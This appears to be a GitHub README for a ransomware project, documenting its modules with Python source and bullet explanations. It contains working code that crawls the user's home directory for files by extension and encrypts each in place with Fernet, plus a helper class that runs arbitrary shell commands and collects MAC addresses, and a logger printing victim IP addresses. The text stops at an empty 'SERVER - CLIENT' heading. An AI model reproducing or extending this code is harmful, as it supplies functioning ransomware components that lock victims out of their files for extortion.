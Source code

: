 # RANSOMWARE
Ransomware is a type of malicious software often used to encrypt files on a user's computer and demand a ransom to decrypt them.

## MODULES
### ENCDEC
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
- The `Process_Files` function takes two parameters: `Private`, a `Fernet` object used for encryption and decryption, and mode, a string specifying the operation mode (`encrypt` or `decrypt`).
- This function iterates through all files returned by the `List_Files` function.
- For each file, it creates a temporary file with the name of the original file appended with *.temp*.
- It opens the original file for reading and the temporary file for writing, with a buffer size of 4096*1024 bytes. It uses mmap to map the original file into memory. 
Then it reads and processes each `chunk` of the original file, with the `chunk` size being 4096*1024 bytes.
- Each `chunk` is then encrypted (if mode is `encrypt`) or decrypted (if mode is `decrypt`) using the `Fernet` object, and then written to the temporary file.
- Once all chunks have been processed, the temporary file is renamed to the name of the original file, replacing the original file. If an error occurs during this process, the function will ignore the error and continue with the next file. Finally, if the temporary file still exists, it will be deleted.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
- The function opens the file '*scripts/extensions.yaml*' for reading and uses the `Safe_Load(file)` function to parse *YAML* data from this file. The result is stored in the variable exts.
- It creates a dictionary `file_categories` with keys as categories from exts and values as empty lists. It also creates a dictionary extcategory where each file extension in `exts` is a key and its corresponding category is the value.
- Then it iterates through all files in the user's home directory. If an entry is a file and its extension (converted to lowercase) is in `extcategory`, the file is added to the corresponding category in `file_categories`.
### SYSTEM
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |     Indicates whether the user is using the Windows operating system or not
    7 functions:
        Init()     |     Initializes the terminal to enable color usage
        Clear()    |     Clears the terminal
        Title()    |     Sets the title of the terminal, only applicable for Windows
        Size()     |     Sets the size of the terminal, only applicable for Windows
        Reset()    |     Restarts the current program
        Mac()      |     Retrieves the MAC address of the computer
        Command()  |     Executes a shell command on the computer's system
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```

- The getattr function is used to retrieve the value of the color attribute from the Col object.
- It creates a formatted string and prints the formatted string.

## SERVER - CLIENT